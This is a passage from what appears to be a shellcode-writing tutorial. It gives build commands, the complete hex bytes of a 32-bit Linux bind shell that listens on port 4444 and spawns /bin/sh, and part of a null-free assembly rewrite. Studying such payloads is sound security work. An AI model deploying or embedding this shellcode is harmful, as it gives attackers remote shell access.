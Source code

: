 ```bash
nasm -f elf64 bind_tcp64.s -o bind_tcp64.o
ld bind_tcp64.o -o bind_tcp64
```


If we try to dump the shellcode we can see it has a lot of null bytes.

```bash
$ ./shellcode_kit.sh -a x86 --extract bind_tcp32
$ cat shellcode_bind_tcp32.txt 
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x6a\x00\x6a\x01\x6a\x02\x89\xe1\xb8\x66\x00\x00\x00\xb3\x01\xcd\x80\x89\xc6\x31\xc0\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xb8\x66\x00\x00\x00\xb3\x02\xcd\x80\x6a\x01\x56\x89\xe1\xb8\x66\x00\x00\x00\xb3\x04\xcd\x80\x6a\x00\x6a\x00\x56\x89\xe1\xb8\x66\x00\x00\x00\xb3\x05\xcd\x80\x89\xc3\x31\xc9\xb0\x3f\xcd\x80\x41\xb0\x3f\xcd\x80\x41\xb0\x3f\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

For making Null Bytes Free shellcode you can check this -

```s
global _start

section .text
_start:
    ; Clear registers without null bytes
    xor ebx, ebx        ; Clear EBX
    mul ebx             ; Clear EAX and EDX (EAX * EBX -> EDX:EAX)
    xor ecx, ecx        ; Clear ECX

    ; =============================================
    ; Step 1: Create socket (socketcall 1)
    ; =============================================
    mov al, 0x66        ; socketcall syscall = 102
    mov bl, 0x1         ; SYS_SOCKET = 1
    
    ; Push arguments in reverse order
    push ecx            ; protocol = 0
    push byte 0x1       ; SOCK_STREAM = 1  
    push byte 0x2       ; AF_INET = 2
    
    mov ecx, esp        ; ECX points to arguments
    int 0x80
    
    ; Save socket file descriptor
    mov esi, eax        ; ESI = sockfd

    ; =============================================
    ; Step 2: Bind socket (socketcall 2)
    ; =============================================
    mov al, 0x66        ; socketcall
    mov bl, 0x2         ; SYS_BIND = 2
    
    ; Build sockaddr_in structure
    push edx            ; INADDR_ANY (0.0.0.0)
    push word 0x5c11    ; Port 4444 (0x115c -> 0x5c11 network byte order)
    push word 0x2       ; AF_INET = 2
    mov ecx, esp        ; ECX points to sockaddr_in
    
    ; Push bind arguments
    push byte 0x10      ; sizeof(sockaddr_in) = 16
    push ecx            ; pointer to sockaddr_in
    push esi            ; sockfd
    
    mov ecx, esp        ; ECX points to bind arguments
    int 0x80
```